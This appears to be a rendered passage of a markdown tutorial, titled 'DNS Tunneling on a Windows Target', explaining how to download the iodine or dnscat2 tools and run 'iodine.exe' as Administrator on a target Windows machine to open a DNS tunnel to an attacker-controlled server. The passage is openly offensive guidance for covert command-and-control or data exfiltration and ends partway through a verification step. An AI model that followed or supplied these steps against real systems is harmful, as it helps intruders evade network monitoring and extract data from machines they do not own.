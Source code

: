     ### **Step-by-Step: DNS Tunneling on a Windows Target**
    
    ### **Step 1: Use a Windows Client for DNS Tunneling**
    
    Since you can't directly install `iodine` on Windows, you'll need a Windows-compatible tool. Here are a couple of options:
    
    1. **Iodine for Windows (Portable)**:
        - There's a **Windows version** of Iodine available as a portable executable.
        - You can download it from trusted sources (e.g., [here on GitHub](https://github.com/yarrick/iodine/releases)) or compile it yourself.
    2. **DNSCat2**:
        - An alternative tunneling tool that also works over DNS. It has a Windows client available.
        - It can be downloaded from [GitHub DNSCat2 repository](https://github.com/iagox86/dnscat2).
    
    For this guide, let's use **Iodine for Windows**.
    
    ---
    
    ### **Step 2: Download and Set Up Iodine on Windows**
    
    1. **Download the Iodine Windows Client**:
        
        - Go to [Iodine’s GitHub page](https://github.com/yarrick/iodine/releases).
        - Download the appropriate `.exe` file for your Windows version.
        
        Example: `iodine-win32-0.7.0.zip`
        
    2. **Extract the Executable**:
        
        - Extract the downloaded `.zip` file. You should see the `iodine.exe` file.
    
    ---
    
    ### **Step 3: Establish the DNS Tunnel**
    
    1. **Run the Iodine Client on Windows**:
        
        - Open **Command Prompt** (as Administrator) on the target Windows machine.
            
        - Navigate to the folder where you extracted `iodine.exe`.
            
        - Use the following command to establish the DNS tunnel with your attacker machine:
            
            ```bash
            iodine.exe -f <your_public_ip> tunnel.example.com
            ```
            
        
        Here:
        
        - `<your_public_ip>` is your attacker's public IP address (where the Iodine server is running).
        - `tunnel.example.com` is the DNS domain or subdomain pointing to your attacker’s IP (same as in the Linux example).
    2. **Verify the Tunnel Interface**: Once the DNS tunnel is established, you can check the network interfaces on the target Windows machine to see the virtual interface that gets created (like `dns0` in Linux). Run this in Command Prompt:
        